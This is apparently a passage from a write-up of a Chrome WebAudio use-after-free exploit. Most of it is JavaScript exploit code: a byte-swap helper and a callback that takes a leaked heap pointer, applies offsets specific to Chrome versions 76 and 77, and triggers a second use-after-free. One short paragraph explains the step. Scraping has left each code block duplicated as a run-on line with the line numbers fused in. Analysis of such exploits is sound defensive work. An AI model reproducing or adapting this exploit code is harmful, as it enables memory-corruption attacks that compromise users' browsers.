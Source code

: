 


function byteSwapBigInt(x) {
	let result = BigInt(0);
	let tmp = x;
 
	for (let i = 0; i < 8; i++) {
    		result = result << BigInt(8);
    		result += tmp & BigInt(0xFF);
    		tmp = tmp >> BigInt(8);
	}
 
	return result;
}




123456789101112

function byteSwapBigInt(x) { let result = BigInt(0); let tmp = x;  for (let i = 0; i < 8; i++) {    		result = result << BigInt(8);    		result += tmp & BigInt(0xFF);    		tmp = tmp >> BigInt(8); }  return result;}




The exploit uses the leaked pointer to get the address of the SuperPage structure and verifies it. If everything goes to plan, then it should be a raw pointer to a temporary_buffer_ object of the ReverbConvolverStage class that is passed to the callback function initialUAFCallback.





let sharedAudioCtx;
let iirFilterFeedforwardAllocationPtr;
 
function initialUAFCallback(addr) {
	sharedAudioCtx = new OfflineAudioContext(1, 1, 3000);
 
	let partitionPageIndexDelta = undefined;
	switch (majorVersion) {
    		case 77: // 77.0.3865.75
        	 	partitionPageIndexDelta = BigInt(-26);
        	break;
    		case 76: // 76.0.3809.87
         		partitionPageIndexDelta = BigInt(-25);
      	   	break;
	}
 
	iirFilterFeedforwardAllocationPtr = getPartitionPageBaseWithinSuperPage(addr, getPartitionPageIndex(addr) + partitionPageIndexDelta) + BigInt(0xFF0);
 
    triggerSecondUAF(byteSwapBigInt(iirFilterFeedforwardAllocationPtr), finalUAFCallback);
}




1234567891011121314151617181920

let sharedAudioCtx;let iirFilterFeedforwardAllocationPtr; function initialUAFCallback(addr) { sharedAudioCtx = new OfflineAudioContext(1, 1, 3000);  let partitionPageIndexDelta = undefined; switch (majorVersion) {    		case 77: // 77.0.3865.75        	 	partitionPageIndexDelta = BigInt(-26);        	break;    		case 76: // 76.0.3809.87         		partitionPageIndexDelta = BigInt(-25);      	   	break; }  iirFilterFeedforwardAllocationPtr = getPartitionPageBaseWithinSuperPage(addr, getPartitionPageIndex(addr) + partitionPageIndexDelta) + BigInt(0xFF0);     triggerSecondUAF(byteSwapBigInt(iirFilterFeedforwardAllocationPtr), finalUAFCallback);}
